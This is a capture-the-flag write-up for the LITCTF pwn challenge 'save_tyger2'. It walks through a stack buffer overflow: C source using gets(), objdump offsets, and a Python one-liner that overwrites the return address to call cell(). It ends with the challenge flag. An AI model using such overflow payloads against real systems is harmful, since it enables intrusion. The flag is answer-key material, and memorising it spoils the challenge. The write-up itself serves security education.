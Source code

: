 # pwn/save_tyger

## Challenge

Tyger needs your help again.
<br>
Connect with `nc litctf.live 31788`

[`save_tyger2`](https://drive.google.com/file/d/1qCSTo01YjzrncT0SZGOTouC4egY_q-PX/view)

## Solution

Like [last time](./save_tyger.md), we're given a C file (and the executable):
```c
#include <stdlib.h>
#include <stdio.h>

void cell(){
	printf("Thank god you got him out of this cockroach-infested cell!\n");
	FILE *f = fopen("flag.txt", "r");
	char flag[64];
	if(f == NULL){
		printf("Something went wrong. Please let Eggag know.\n");
		exit(1);
	}
	fgets(flag, 64, f);
	puts(flag);
    exit(0);
}

int main(){
	char buf[32];
	printf("NOOOO, THEY TOOK HIM AGAIN!\n");
	printf("Please help us get him out or there is no way we will be able to prepare LIT :sadness:\n");
	gets(buf);
}
```
This is another classic problem.

We need to somehow call `cell()`. Note the usage of `gets` for input, which lets us write arbitrarily many characters, so we can overflow `buf` into the return address. We now look in the executable (`objdump -d`) for the address of `cell()`, and where `buf` is stored:
```
0000000000401162 <cell>:
...
00000000004011cd <main>:
  4011cd:	55                   	push   %rbp
  4011ce:	48 89 e5             	mov    %rsp,%rbp
  4011d1:	48 83 ec 20          	sub    $0x20,%rsp
  4011d5:	bf 7d 20 40 00       	mov    $0x40207d,%edi
  4011da:	e8 51 fe ff ff       	callq  401030 <puts@plt>
  4011df:	bf a0 20 40 00       	mov    $0x4020a0,%edi
  4011e4:	e8 47 fe ff ff       	callq  401030 <puts@plt>
  4011e9:	48 8d 45 e0          	lea    -0x20(%rbp),%rax <- buf
  4011ed:	48 89 c7             	mov    %rax,%rdi
  4011f0:	b8 00 00 00 00       	mov    $0x0,%eax
  4011f5:	e8 56 fe ff ff       	callq  401050 <gets@plt>
...
```
`cell()` is at `0x0000000000401162` (addresses are 64-bit, or 8 bytes). `buf` is at `%rbp - 0x20`.
That means we need `0x20 = `32 bytes to reach `%rbp`, which points to the address of the previous stack frame, which is 8 bytes long.
Past that is the return address location, so we need to skip 40 bytes total.
So we need to send 40 junk characters, and then `0x0000000000401162`:
```py
print("a"*40+"6211400000000000".decode("hex"))
```
Note the leading/trailing 0s are important, to overwrite the entirety of the original address.

Pipe the Python output into the netcat command, and we get our flag.

## Flag

`LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`

